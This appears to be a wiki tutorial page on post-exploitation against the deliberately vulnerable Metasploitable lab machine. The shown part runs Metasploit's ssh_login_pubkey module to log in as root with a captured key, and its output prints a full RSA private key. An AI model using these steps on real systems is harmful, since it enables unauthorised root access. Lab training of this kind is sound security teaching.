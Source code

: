 
Metasploitable/Post

Okay, so you've got root on Metasploitable, you've taken advantage of the many, many rat holes leading you deep into the bowels of the system - but now what?
Contents [hide]

    1 Gather
        1.1 Electric Sheep or Real Sheep
        1.2 Enumerate Configurations
        1.3 Enumerate Network
        1.4 Enumerate Protections
        1.5 Enumerate the System
        1.6 Enumerate User History
    2 Flags

Gather

Let's suppose you are in your metasploitable workspace:

msf > workspace
  default
* metasploitable
msf >

Let's also assume you've loaded up the private/public key exploit, and successfully validated that you can log in remotely.

msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > set KEY_PATH /root/r00tmsfkey
KEY_PATH => /root/r00tmsfkey
msf auxiliary(ssh_login_pubkey) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(ssh_login_pubkey) > run

[*] 10.0.0.27:22 SSH - Testing Cleartext Keys
[*] 10.0.0.27:22 SSH - Testing 1 keys from /root/r00tmsfkey
[+] 10.0.0.27:22 SSH - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqld
JkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qO
ffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5
JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9I
yhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7b
wkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3wIBIwKCAQBaUjR5bUXnHGA5fd8N
UqrUx0zeBQsKlv1bK5DVm1GSzLj4TU/S83B1NF5/1ihzofI7OAQvlCdUY2tHpGGa
zQ6ImSpUQ5i9+GgBUOaklRL/i9cHdFv7PSonW+SvF1UKY5EidEJRb/O6oFgB5q8G
JKrwu+HPNhvD+dliBnCn0JU+Op/1Af7XxAP814Rz0nZZwx+9KBWVdAAbBIQ5zpRO
eBBlLSGDsnsQN/lG7w8sHDqsSt2BCK8c9ct31n14TK6HgOx3EuSbisEmKKwhWV6/
ui/qWrrzurXA4Q73wO1cPtPg4sx2JBh3EMRm9tfyCCtB1gBi0N/2L7j9xuZGGY6h
JETbAoGBANI8HzRjytWBMvXh6TnMOa5S7GjoLjdA3HXhekyd9DHywrA1pby5nWP7
VNP+ORL/sSNl+jugkOVQYWGG1HZYHk+OQVo3qLiecBtp3GLsYGzANA/EDHmYMUSm
4v3WnhgYMXMDxZemTcGEyLwurPHumgy5nygSEuNDKUFfWO3mymIXAoGBAMqZi3YL
zDpL9Ydj6JhO51aoQVT91LpWMCgK5sREhAliWTWjlwrkroqyaWAUQYkLeyA8yUPZ
PufBmrO0FkNa+4825vg48dyq6CVobHHR/GcjAzXiengi6i/tzHbA0PEai0aUmvwY
OasZYEQI47geBvVD3v7D/gPDQNoXG/PWIPt5AoGBAMw6Z3S4tmkBKjCvkhrjpb9J
PW05UXeA1ilesVG+Ayk096PcV9vngvNpLdVAGi+2jtHuCQa5PEx5+DLav8Nriyi2
E5l35bqoiilCQ83PriCAMpL49iz6Pn00Z3o+My1ZVJudQ5qhjVznY+oBdM3DNpAE
xn6yeL+DEiI/XbPngsWvAoGAbfuU2a6iEQSp28iFlIKa10VlS2U493CdzJg0IWcF
2TVjoMaFMcyZQ/pzt9B7WQY7hodl8aHRsQKzERieXxQiKSxuwUN7+3K4iVXxuiGJ
BMndK+FYbRpEnaz591K6kYNwLaEg70BZ0ek0QjC2Ih7t1ZnfdFvEaHFPF05foaAg
iIMCgYAsNZut02SC6hwwaWh3Uxr07s6jB8HyrET0v1vOyOe3xSJ9YPt7c1Y20OQO
Fb3Yq4pdHm7AosAgtfC1eQi/xbXP73kloEmg39NZAfT3wg817FXiS2QGHXJ4/dmK
94Z9XOEDocClV7hr9H//hoO8fV/PHXh0oFQvw1d+29nf+sgWDg==
-----END RSA PRIVATE KEY-----
' 'uid=0(root) gid=0(root) groups=0(root) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '